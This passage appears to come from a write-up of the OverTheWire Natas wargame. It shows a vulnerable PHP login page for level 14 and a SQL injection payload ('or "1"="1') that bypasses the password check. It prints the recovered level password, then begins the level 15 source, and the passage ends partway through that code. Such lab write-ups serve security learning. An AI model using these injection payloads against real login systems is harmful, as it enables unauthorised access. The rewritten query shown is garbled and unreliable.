 ```markup
    }
    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

```text
SELECT * from users where username="username_input" and password="password_input"
```

so if we input

```text
natas14
pass" or "1"="1
```

it will look like this.

```text
SELECT * from users where username="natas14" or and password="pass" or "1"="1"
```

Since the or is always true \( 1 = 1\) the password doesnt need to be correct.

```text
AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
```

### Natas15

```markup
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas15", "pass": "<censored>" };</script></head>
<body>
<h1>natas15</h1>
<div id="content">
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
```